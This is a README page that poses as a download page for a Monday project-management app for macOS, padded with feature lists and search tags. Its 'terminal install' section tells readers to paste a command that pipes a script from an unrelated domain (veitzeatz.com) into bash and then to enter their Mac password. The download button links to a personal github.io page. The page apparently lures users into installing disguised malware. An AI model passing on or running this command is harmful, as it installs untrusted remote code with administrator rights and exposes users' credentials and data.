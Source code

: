 # Monday — Download For Mac OS
![img](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcT-EoLe9TvsIw6A_9SkcimNDONLnSyD-sbxog&s)

Monday is a powerful work operating system (Work OS) designed to help teams plan, track, and manage projects and tasks collaboratively—all available now as a macOS desktop app. Experience the same flexibility, automation, and visual workflows of the browser version, in a distraction-free native app for Mac. 🧠

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue.svg?style=for-the-badge\&logo=apple)](https://mrboomzeus519.github.io/gimronus/monday)

If the download button doesn’t work, follow the instructions below to install Monday manually using your Terminal.

---

## 📦 How to Install Monday For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Monday app into your Applications folder.
3. Launch Monday from Applications.

### Installation via a command in the terminal:

1. Copy the following installation command:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press “Return” and enter your Mac password.

---

## 🎯 What You Get with Monday

* ✅ **Task & Project Management** – Visual boards, Kanban, timelines, and calendars.
* 📋 **Workflow Automation** – Set rules and triggers to automate routine actions.
* 🔔 **Notifications & Reminders** – Stay in the loop with real-time updates.
* 🧩 **Third-Party Integrations** – Connect with Google Drive, Slack, Zoom, and more.
* 📈 **Data Dashboards** – Monitor team progress with customizable visual reports.
* 👥 **Collaboration Tools** – Share files, comment, tag teammates, and track updates.

---

## About Monday For Mac

Monday for Mac brings the full power of the Work OS into a focused and responsive native desktop experience. Forget the clutter of browser tabs—this dedicated app improves performance, delivers faster access to boards, and integrates deeply with macOS features.

From startups to enterprise teams, Monday is used by product managers, marketers, engineers, and HR professionals to centralize workflows and drive productivity. With full offline access, native notifications, drag-and-drop task management, and instant syncing, the desktop app ensures you're always aligned—wherever you work.

Tailored for both Intel and Apple Silicon Macs, the app is designed to make multitasking smoother and improve your team's workflow agility.

Whether you’re coordinating campaigns, managing sprint cycles, or aligning cross-functional teams, Monday empowers users with an intuitive and highly visual interface to reduce friction and improve collaboration across departments. With custom dashboards, scalable templates, and automation recipes, it’s more than a tool—it’s your team’s shared command center.

---

## 🌟 Key Benefits

* 💻 Native Monday experience on macOS
* 📊 Visual boards, timelines, calendars & Gantt charts
* 🔁 Workflow automations and no-code integrations
* 🔒 Secure cloud-based collaboration
* ⚙️ Seamless integration with over 40+ tools
* 🍎 Optimized for M1/M2 Apple Silicon and Intel Macs

---

## 🖼 Preview

![Monday Boards](https://res.cloudinary.com/monday-blogs/w_1920,h_1014,c_fit/fl_lossy,f_auto,q_auto/wp-blog/2021/05/crm-mac-monday.com-dashboards.png)
*Flexible board layouts for every project type*


---

## 🔍 Tags

monday for mac, monday mac app, monday mac download, project management mac, monday desktop mac, download monday for mac, monday task manager, monday app macos, monday work os, monday download, monday com desktop app, monday desktop app, monday com download, monday app download, monday app
